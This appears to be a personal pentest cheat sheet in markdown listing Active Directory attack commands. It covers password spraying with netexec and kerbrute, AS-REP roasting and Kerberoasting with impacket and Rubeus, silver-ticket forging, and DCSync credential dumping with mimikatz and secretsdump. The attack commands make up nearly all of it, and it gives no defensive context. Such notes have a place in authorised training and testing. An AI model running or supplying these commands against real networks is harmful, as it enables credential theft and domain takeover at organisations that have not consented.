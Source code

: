 # Passwords Splay Attack

obtain the account policy
```
net accounts
```

## Powershell
using password spraying script
```
powershell -ep bypass
```
then execute [[Splay-Passwords.ps1]]
```
.\Splay-Password.ps1 -Pass Nexus123! -Admin
```
## netexec
SMB password spray 
```
nxc smb 192.168.x.x -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

against all domain joined machines
```
nxc smb ip.txt -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
## kerbrute
download
```
https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe
```

execute
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

# AS-REP Roasting

## Impacket-GetNPUsers
Using GetNPUsers to perform AS-REP roasting
```
impacket-GetNPUsers -dc-ip 192.168.x.x -request -outputfile hashes.asreproast corp.com/pete
```
## Rubeus
obetain the AS-REP hash
```
.\Rubeus.exe asreproast /nowrap
```

Cracking the AS-REP hash with hashcat [[../Password Attack/Password Crack|Password Crack]]

# Kerberoasting

## Impacket-GetUserSPNs
Using impacket-GetUserSPNs to perform Kerberoasting on Linux
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.x.x corp.com/pete
```
## Rubeus
perform a kerberoast attack
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

cracking the TGS-REP hash with hashcat [[../Password Attack/Password Crack|Password Crack]]


# Silver Ticket
need to collect the folloing three pieces of information
```
1. SPN password hash (NTLM)
2. Domain SID
3. Target SPN
```

using mimikatz to obtain the NTLM hash of the target user acount
```
privilege::debug
sekurlsa::logonpasswords
```

obtaining the domain SID
```
whoami /user
```

forging the service ticket the impersonating user and inject it into the current session
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
```


# Domain Controller Synchronization
members of the _Domain Admins_, _Enterprise Admins_, and _Administrators_ groups

## mimikatz
using mimikatz to obtain the credentials of user
```
lsadump::dcsync /user:corp\USERNAME
```

Administrator
```
lsadump::dcsync /user:corp\Administrator
```

## impacket-secretsdump
required ip of the DC in the format domain/user:password@ip

using secretsdump to perform the dcsync attack
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.x.x
```